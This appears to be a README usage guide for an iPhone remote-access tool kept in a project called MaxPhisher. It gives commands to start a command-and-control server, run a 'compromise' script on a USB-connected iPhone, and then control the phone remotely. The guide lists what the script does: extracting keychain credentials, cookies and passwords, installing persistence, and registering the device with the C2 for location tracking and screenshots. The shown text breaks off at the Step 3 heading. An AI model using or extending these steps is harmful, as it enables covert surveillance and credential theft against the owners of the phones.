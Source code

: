 # iPhone Remote Access - Complete Usage Guide

## 🚀 Quick Start (3 Steps)

### Step 1: Start C2 Server

```bash
cd /home/haymayndz/MaxPhisher

# Start C2 server
python3 c2_server.py server

# Output:
# [*] Starting C2 server on 0.0.0.0:8443
# [*] Encryption key: gAAAAABl2k3j4...
# [*] Database: /home/haymayndz/MaxPhisher/c2_data.db

# SAVE THE ENCRYPTION KEY!
```

**Keep terminal open** or run in background:
```bash
# Run in background
nohup python3 c2_server.py server > c2.log 2>&1 &

# Or use systemd (recommended)
sudo systemctl start iphone-c2
```

### Step 2: Connect & Compromise iPhone

```bash
# Connect iPhone via USB
# Unlock and tap "Trust This Computer"

# Run compromise script
python3 compromise_iphone.py

# Enter encryption key from Step 1
# Script will auto-detect device and compromise it
```

**What happens:**
- ✅ Detects connected iPhone
- ✅ Checks jailbreak status
- ✅ Extracts credentials (keychain, cookies, passwords)
- ✅ Installs persistence mechanism
- ✅ Registers with C2 server
- ✅ Tests remote control (location, screenshot)

### Step 3: Control iPhone Remotely
